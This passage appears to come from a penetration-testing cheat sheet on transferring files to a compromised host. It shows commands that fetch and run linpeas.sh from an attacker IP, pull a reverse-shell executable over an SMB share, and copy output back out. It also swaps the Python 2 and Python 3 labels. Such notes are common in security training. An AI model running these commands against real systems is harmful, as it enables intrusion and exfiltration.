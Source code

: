 * Above is for python3

```
python -m SimpleHTTPServer 8000
```

* Above is for python
* You can optionally specify a port that you want the server to run on (it defaults to 8000)

```
python3 -m http.server 80
```

* Wget the file from the target box

```
wget http://172.16.6.1:8000/linpeas.sh
```

* Change permissions

```
chmod +x linpeas.sh
```

* Run the transfered file

```
./linpeas.sh
```

### PHP Web Server

```
php -S $ip:80
```

### Metasploit Web Server

```
use auxiliary/server/ftp
auxiliary/server/tftp
```

## SMB File Transfer

* On kali box:

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

* On Windows (update the IP address with your Kali IP):

```
copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
#Reverse Copy FROM Windows
copy output.txt \\10.10.14.22\kali\output.txt
```

#### SMB2 Support
